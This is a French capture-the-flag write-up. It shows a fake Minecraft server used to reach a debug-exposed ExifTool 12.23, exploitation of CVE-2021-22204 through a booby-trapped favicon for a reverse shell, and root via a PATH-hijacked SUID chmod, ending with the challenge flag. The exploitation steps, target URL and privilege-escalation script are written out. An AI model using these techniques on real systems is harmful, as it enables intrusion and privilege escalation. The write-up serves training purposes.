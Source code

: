 ![Desc](images/desc.png)

# Write-Up

On part d’une page web qui, via un formulaire, ping un serveur MC pour afficher joueurs, version, description & favicon. En testant mc.hypixel.net:25565, on reçoit une erreur exigeant un MOTD contenant “Cinema” et “Cannes” :

![Error](images/error.png)


En déployant un serveur Node.js avec le bon MOTD on a une nouvelle erreur : "Un peu de serieux, le serveur ne peut pas avoir moins de 1 000 000 de joueurs !", on ajuste donc le nombre de joueurs : 

```python
const mc = require('minecraft-protocol');
const fs = require('fs');

const MOTD = 'Cinema de Cannes';

const raw = fs.readFileSync('favicon.jpg');
const faviconData = 'data:image/jpeg;base64,' + raw.toString('base64');

const server = mc.createServer({
  host: '0.0.0.0',
  port: 25565,
  version: false, // accepte toutes les versions
  'online-mode': false, // offline mode
  maxPlayers: 1000000,
  favicon: faviconData,
  beforePing: (response, client) => {
    // personnalise la réponse
    console.log(`[>] beforePing response for ${client.socket.remoteAddress}:${client.socket.remotePort}:`);
    console.dir(response, { depth: null });
    response.version.name = '1.21';
    response.version.protocol = response.version.protocol;
    response.players.max = 1000000;
    response.players.online = 1000000;
    // description en objet JSON
    response.description = { text: MOTD };
    return response; // renvoie l’objet modifié
  }
});

server.on('listening', () => console.log('Fake server ON'));

server.on('connection', client => {
  const addr = `${client.socket.remoteAddress}:${client.socket.remotePort}`;
  console.log(`[+] New connection from ${addr}`);
  client.on('handshake', packet => {
    console.log(`[?] Handshake from ${addr}:`);
    console.dir(packet, { depth: null });
  });
  client.on('ping', packet => console.log(`[?] Ping from ${addr}:`, packet));
  client.on('error', err => console.error(`[!] Error from ${addr}:`, err));
  client.on('packet', (packetName, packet) => {
    console.log(`[→] Packet '${packetName}' from ${addr}:`);
    console.dir(packet, { depth: null });
  });('packet', (packetName, packet) => {
    console.log(`[→] Packet '${packetName}' from ${addr}:`);
    console.dir(packet, { depth: null });
  });
  client.on('raw', buffer => {
    console.log(`[→] Raw data (${buffer.length} bytes) from ${addr}:`, buffer.toString('hex'));
  });
});
```

Concernant la vulnérabilité, les commentaires dans le code source nous ont permis de la retrouver : 

```html
<!-- <input type="hidden" name="debug" value="debug_for_admin_20983rujf2j1i2" > -->
```

En ajoutant le paramètre debug à notre requête, un nouveau commentaire apparaît dans le code source : 

```html
<!-- Exiftool Version: 12.23, Taille du fichier: 455 --> Cette taille de fichier correspond au favicon du serveur d'exemple
```

Cette version d'exiftool est vulnérable à une Arbitrary Code Execution (CVE-2021-22204), un script d'exploitation(https://www.exploit-db.com/exploits/50911), nous permet de générer une image piégée pour obtenir un reverse shell : 

![Error](images/exploit.png)

Une fois le serveur MC relancé on peut de nouveau le requêter `http://57.128.112.118:11991/?server=4.210.160.24&port=25565&debug=debug_for_admin_20983rujf2j1i2` et le serveur web se connecte bien à notre listener :

![request](images/request.png)
![revshell](images/rev.png)

On peut lister les fichiers :

```zsh
$ ls -la
… fix_permissions    # binaire SUID root  
… flag.txt           # permissions 000
```

Lorsqu'on exécute le binaire fix_permissions:

```zsh
flaskuser@app:/app$ ./fix_permissions flag.txt
[*] Fixing permissions for files in /app/images
[*] Running as UID: 0
[*] Command: chmod 400 *
```

- Le binaire utilise probablement un execvp("chmod", args) ou un system("chmod 400 *") sans préciser de chemin absolu /bin/chmod.

- Il hérite donc de la variable d’environnement PATH de l’utilisateur appelant.

- Exploit : si on place devant /bin un exécutable chmod malicieux, execvp l’appellera en tant que root :

On créer un “chmod” factice dans /app/images pour récupèrer le flag :

```zsh
cat > chmod <<'EOF'
#!/bin/bash
cp /app/flag.txt /tmp/flag_copy.txt
chmod 644 /tmp/flag_copy.txt
exit 0
EOF
```

On rend ce script éxécutable :

```zsh
/bin/chmod +x chmod
```

On Préfixe `PATH` pour que notre script soit trouvé en priorité :

```zsh
export PATH=$(pwd):$PATH
```

On lance le binaire :

```zsh
../fix_permissions
```

On récupère le flag :

![Flag](images/SUIDexploit.png)

**Flag**

`SHLK{O!d_Sch0Ol_Guy_Ho1ds_Olds_V3rsions}`